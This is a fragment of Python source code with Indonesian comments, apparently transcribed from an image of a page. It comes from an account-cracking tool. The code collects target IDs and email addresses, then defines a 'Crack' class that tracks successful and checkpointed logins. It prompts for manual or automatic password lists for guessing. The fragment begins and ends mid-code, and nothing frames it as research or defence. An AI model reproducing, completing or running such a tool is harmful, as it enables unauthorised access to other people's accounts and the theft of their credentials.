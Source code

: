 				else:

					email = str(nama)+str(z)+str(format)+"<=>"+str(nama)

				if email in tampung:pass

				else:tampung.append(email)

		except:pass

###----------[ BAGIAN CRACK ]---------- ###

class Crack:

	

	###----------[ FUNCTION INIT ]---------- ###

	def __init__(self):

		self.loop = 0

		self.ok = []

		self.cp = []

		self.hari_ini = datetime.now().strftime("%d-%B-%Y")

		

	###----------[ ATUR SANDI DAN METODE ]---------- ###

	def atursandi(self):

		prints(Panel(f"""{P2}berhasil mengumpulkan {len(tampung)} id""",width=80,padding=(0,21),style=f"{color_panel}"))

		set = console.input(f" {H2}• {P2}apakah kamu ingin menggunakan sandi manual?(y/n) : ")

		

		###----------[ SANDI MANUAL ]---------- ###

		if set in["Y","y"]:

			prints(Panel(f"""{P2}silahkan buat katasandi dengan , (koma) sebagai pemisah tiap katasandi""",width=80,style=f"{color_panel}"))

			pwx = console.input(f" {H2}• {P2}buat katasandi : ").split(",")

			if len(pwx)<=5:

				prints(Panel(f"""{M2}katasandi harus minimal 6 huruf""",width=80,style=f"{color_panel}"))

				exit()

			self.manual(pwx)

		

		###----------[ SANDI OTOMATIS ]---------- ###

		else:

			self.otomatis()

		
